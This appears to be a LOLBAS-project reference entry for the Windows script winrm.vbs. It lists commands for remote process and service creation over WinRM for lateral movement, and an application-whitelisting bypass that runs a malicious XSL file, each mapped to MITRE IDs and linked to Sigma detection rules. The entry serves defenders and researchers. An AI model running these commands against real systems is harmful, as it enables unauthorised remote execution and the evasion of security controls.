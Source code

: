 ```yaml
---
Name: winrm.vbs
Description: Script used for manage Windows RM settings
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: 'winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985'
    Description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
  - Command: 'winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985 && winrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985'
    Description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol
    Usecase: Proxy execution
    Category: Execute
    Privileges: Admin
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
  - Command: '%SystemDrive%\BypassDir\cscript //nologo %windir%\System32\winrm.vbs get wmicimv2/Win32_Process?Handle=4 -format:pretty'
    Description: Bypass AWL solutions by copying cscript.exe to an attacker-controlled location; creating a malicious WsmPty.xsl in the same location, and executing winrm.vbs via the relocated cscript.exe.
    Usecase: Execute arbitrary, unsigned code via XSL script
    Category: AWL Bypass
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\winrm.vbs
  - Path: C:\Windows\SysWOW64\winrm.vbs
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Slmgr.reg
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Slmgr_calc.sct
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/10b70edff055cfb12b16d934c77f9ccf4b97a529/rules/windows/process_creation/win_susp_winrm_awl_bypass.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/7bca85e40618126643b9712b80bd663c21908e26/rules/windows/process_creation/win_susp_winrm_execution.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/3107ede1c4d253c89a26f3a0be79122a3a562f29/rules/windows/file_event/file_event_winrm_awl_bypass.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Resources:
  - Link: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - Link: https://www.youtube.com/watch?v=3gz1QmiMhss
  - Link: https://github.com/enigma0x3/windows-operating-system-archaeology
  - Link: https://redcanary.com/blog/lateral-movement-winrm-wmi/
  - Link: https://twitter.com/bohops/status/994405551751815170
  - Link: https://posts.specterops.io/application-whitelisting-bypass-and-arbitrary-unsigned-code-execution-technique-in-winrm-vbs-c8c24fb40404
  - Link: https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/wp-windows-management-instrumentation.pdf
Acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Matt Nelson
    Handle: '@enigma0x3'
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Red Canary Company cc Tony Lambert
    Handle: '@redcanaryco'
---
```

